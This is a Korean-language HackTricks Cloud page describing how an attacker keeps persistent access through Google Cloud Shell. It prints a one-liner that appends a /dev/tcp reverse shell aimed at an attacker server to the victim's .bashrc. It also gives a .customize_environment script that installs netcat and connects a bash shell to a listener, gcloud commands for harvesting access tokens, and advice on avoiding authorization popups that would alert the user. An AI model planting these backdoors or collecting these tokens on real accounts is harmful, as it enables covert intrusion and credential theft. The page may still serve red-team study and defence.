 # GCP - 클라우드 셸 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks를 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [Discord 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud**에 PR을 제출하여 **해킹 트릭을 공유**하세요.
*
*
*
* github 저장소.

</details>

## 클라우드 셸

자세한 정보는 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 지속적인 백도어

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 클라우드 리소스에 대한 명령줄 액세스를 제공하며 관련 비용이 없습니다.

**웹 콘솔** 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔에는 공격자에게 흥미로운 몇 가지 기능이 있습니다:

1. **Google Cloud에 액세스 권한이 있는 모든 Google 사용자**는 완전 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다(서비스 계정은 조직의 소유자일지라도 가능).
2. 해당 인스턴스는 **활동이 없는 경우 최소 120일 동안 홈 디렉터리를 유지**합니다.
3. 해당 인스턴스의 활동을 모니터링할 **조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉터리에 백도어를 설치할 수 있으며 사용자가 적어도 120일마다 GC Shell에 연결한다면 백도어가 유지되어 공격자가 매번 실행될 때마다 쉘을 얻을 수 있음을 의미합니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 다른 파일이 있습니다. 이 파일이 존재하면 사용자가 **클라우드 셸**에 액세스할 때마다 **실행**됩니다 (이전 기술과 마찬가지로). 사용자가 클라우드 셸을 "자주" 사용하는 한 이전 백도어를 삽입하거나 다음과 유사한 백도어를 삽입하여 지속성을 유지할 수 있습니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
인증이 필요한 작업을 처음 수행할 때 사용자의 브라우저에 팝업 인증 창이 나타납니다. 이 창을 수락해야 명령을 실행할 수 있습니다. 예기치 않은 팝업이 나타나면 의심을 불러일으키고 사용 중인 지속성 방법을 손상시킬 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행할 때 (공격자로) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 활발하게 사용한 경우 팝업이 나타나지 않으며 사용자의 토큰을 수집할 수 있습니다:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로 다음 3가지 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 쉘의 IP를 알려줌)

그러나 [여기](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 더 많은 정보를 찾을 수 있습니다.

## 참고 자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
